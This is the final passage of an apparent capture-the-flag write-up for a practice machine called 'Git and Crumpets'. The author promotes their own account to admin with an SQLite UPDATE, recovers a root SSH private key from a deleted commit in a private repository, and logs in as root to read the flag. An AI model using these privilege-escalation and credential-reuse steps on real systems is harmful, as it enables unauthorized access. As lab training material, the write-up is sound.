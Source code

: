 ```sql
```

Update our permissions to root user.

```sql
sqlite> UPDATE user SET is_admin=1 WHERE id=3;
```

Now if we visit the website we see a private repository  called `backups` owned by root!

![header](../../assets/img/posts/Gitandcrumpets/website12.png)

We have 2 branches in here `master` & `dotfiles`.

![header](../../assets/img/posts/Gitandcrumpets/website13.png)

The **dotfiles** branch has 4 commits. We see that the root user added his ssh keys and then deleted it.

![header](../../assets/img/posts/Gitandcrumpets/website14.png)

Lets now grab the SSH private key and ssh into the box as root to grab the root flag!🚩

NOTE - The name of the file is the passphrase required to ssh in as root.

```
┌──(root💀kali)-[~/thm/gitsandcrumpets]
└─# ssh root@git.git-and-crumpets.thm -i id_rsa 
Enter passphrase for key 'id_rsa': 
Last login: Sat Jul  3 21:36:13 2021 from 192.168.247.1

[root@git-and-crumpets ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@git-and-crumpets ~]# cat /root/root.txt
dGhtezYzMjAy*********g4NzI0MGRjNmExfQ==

[root@git-and-crumpets ~]# cat /root/root.txt | base64 -d
thm{6320228d*********7240dc6a1}
```


